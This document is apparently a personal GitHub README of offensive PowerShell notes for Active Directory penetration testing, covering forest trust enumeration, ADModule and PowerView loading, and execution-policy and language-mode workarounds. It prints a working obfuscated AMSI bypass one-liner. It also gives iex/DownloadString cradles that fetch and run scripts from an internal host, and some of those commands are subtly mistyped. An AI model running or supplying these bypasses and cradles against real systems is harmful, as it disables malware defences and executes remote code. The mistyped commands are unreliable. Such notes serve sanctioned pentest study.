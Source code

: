 # Powershell Plays

&nbsp; Playing around with Powershell   

&nbsp;  

## Domain Forest Trust enumeration using .NET classes

1. Run as a domain member on the workstation  

2. To get information regarding forest for the current domain:  
`[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()`  
&nbsp;&nbsp;&nbsp;&nbsp;- *'GlobalCatalogs' can be appended to get global catalog*  
&nbsp;&nbsp;&nbsp;&nbsp;- *'Forest' can be replaced with 'Domain' to get domain info*  
&nbsp;&nbsp;&nbsp;&nbsp;- *The previous replacement and appending 'GetAllTrustRelationships()' gives trust relaitonship info for the domain*  

3. Declaring / setting the vbl $ForestRootDomain:  
`$ForestRootDomain = '<>'`  

4. To get information regarding forest for the current domain:  
`([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', $ForestRootDomain)))).GetAllTrustRelationships()`

&nbsp;  

## AMSI Bypass

1. Source 1: [reigningshells/powershell-bypasses.ps1](https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560)  
&nbsp;&nbsp;&nbsp;&nbsp;- *This bypass works*  

2. Test that `amsiinitfailed`, `amsiutils`, `invoke-mimikatz`, etc returns that it isn't the name of a cmdlet, function, etc  

3. Test BURNED bypass: ``sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )``  
&nbsp;&nbsp;&nbsp;&nbsp;- *It should have no return output*  

4. Right way to bypass: `iex (New-Object New.WebClient).DownloadString("https://10.0.0.7/amsi/bypass.ps1")`  

5. Source 2: [S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  

6. Source 3: [0gtweet - powershell.exe params](https://twitter.com/0gtweet/status/1281103918693482496)

&nbsp;  

## TLS version

1. To enumerate 'systemdefault' to see what's supported:  
`[enum]::getvalues('net.securityprotocoltype')`  

2. To set to TLS1.2 (or greater):  
`[Net.ServicePointmanager]::SecurityProtocol = 'Tls12'`  
&nbsp;&nbsp;&nbsp;&nbsp;- *can replace 'Tls12' with a greater version*  

&nbsp;  

## ADModule

1. Clone or download ADModule: [samratashok/ADModule](https://github.com/samratashok/ADModule)  
&nbsp;&nbsp;&nbsp;&nbsp;- *can also just download the 2 needed files*  

2. `Import-Module \<absolute or relative path>\Microsoft.ActiveDirectory.Management.dll -Verbose`  

3. `Import-Module \<absolute or relative path>\ActiveDirectory\ActiveDirectory.psd1 -Verbose`  
&nbsp;&nbsp;&nbsp;&nbsp;- *If the execution policy fails, do `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then do step 2 onward*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Can also do `Unblock-File <file_path>`*  

4. `Get-Command -Module ActiveDirectory` *won't work* and `Get-ADDomain` *will work*  
&nbsp;  
5. `iwr -Uri "https://github.com/samratashok/admodule/archive/master.zip" -Outfile ADModule.zip` or download zip  

6. `Expand-archive .\ADModule.zip`  

7. `cd .\ADModule-master\ActiveDirectory`  

8. `Import-Module .\ActiveDirectory.psd1`  

9. `Get-Command -Module ActiveDirectory` should work now  

&nbsp;  

## Execution Policy and Execution Context  

1. `Get-ExecutionPolicy -list`  
&nbsp;&nbsp;&nbsp;&nbsp;- *make sure only unrestricted for CurrentUser and LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *`Set-ExecutionPolicy -Scope <scope_name> -ExecutionPolicy Unrestricted` where <scope_name> can be CurrentUser or LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *Source: [ways to bypass powershell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)*

2. `$ExecutionContext.SessionState`  
&nbsp;&nbsp;&nbsp;&nbsp;- *Make sure LanguageMode is FullLanguage or do `-set $ExecutionContext.SessionState.LanguageMode = "FullLanguage"`*  

&nbsp;  

## Get PowerView  

1. New PowerView: [PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)  
&nbsp;&nbsp;&nbsp;&nbsp;- *Download zip, or git clone, or copy/paste in `notepad.exe PowerView.ps1` or by `iwr -Uri "https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon/PowerView.ps1" -Outfile PowerView.ps1`*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Right way to download: `iex (New-Object New.WebClient).DownloadString("https:10.0.0.7/powersploit/PowerSploit-master/Recon/PowerView.ps1")`*  

2. `Import-Module .\PowerView.ps1`  

&nbsp;  

## PowerView  

1. Using PowerView tips: [HarmJ0y/Cheatsheets](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf) and [BSidesCharm-PowershellSecurity](https://adsecurity.org/wp-content/uploads/2016/05/BSidesCharm-2016-PowerShellSecurity-Defending-the-Enterprise-from-the-Latest-Attack-Platform-FINAL.pdf)

&nbsp;  
